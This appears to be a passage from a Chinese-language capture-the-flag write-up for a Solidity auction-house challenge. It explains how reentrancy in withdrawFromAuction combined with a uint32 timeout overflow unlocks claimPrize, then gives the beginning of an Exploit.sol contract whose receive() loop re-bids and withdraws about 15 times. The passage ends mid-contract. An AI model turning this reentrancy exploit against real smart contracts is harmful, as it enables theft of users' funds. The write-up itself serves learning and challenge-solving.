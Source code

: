     * !blacklisted[msg.sender]
        * 沒有被列入blacklist -> 沒有withdraw
    * _isPayable(msg.sender)
        * payable contract
        * 有fallback function
* withdrawFromAuction
    * payable(withdrawer.addr).call{value: withdrawer.bid / 2}(""); 
* 但仔細觀察可以發現，這題不是只有要觸發reentrancy
* 而是在bid之後，會設定一個timeout
* 程式使用uint32，稍微計算一下之後可以發現，大約執行81次之後會integer overflow，也就會回到31556926，如此一來便可以執行ClaimPrize
* 但是題目給的account只有30ether
* 要想辦法再60次內讓 uint32 timeout integer overflow
* 但是!!!
* 但是!!!
* 題目的 timeout是3821613406(0x00e3c9315e)
* 所以執行15次就可以了
* 但由於執行integer overflow會導致contract無法再進行bid
* 因此我們需要生成另一個新的合約來transferKey
* 可以使用另一個合約來建構原本的Exploit合約來一次性地完成攻擊






### Exploit

* Exploit.sol
```solidity=
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.7.0;
pragma abicoder v2;
import {Setup} from './Setup.sol';
import {AuctionHouse} from './AuctionHouse.sol';


contract Exploit{
    Setup setup;
    AuctionHouse auctionhouse;
    uint32 public count = 0;
    bool public reentrancy ;

    constructor(Setup _setup) payable{
        require(msg.value >= 1 ether);
        setup = _setup;
        auctionhouse = _setup.TARGET();
    }
    receive() external payable{

        if(msg.value != 0 ){
            if(count <= 15){
                // new bidder
                count += 1;
                payable(auctionhouse).call{value: 1 ether}("");
                // withdraw
                auctionhouse.withdrawFromAuction();
            }
        }
            /*else{
                payable(auctionhouse).call{value: 1 ether}("");
                auctionhouse.claimPrize();

            }
            */

    }
```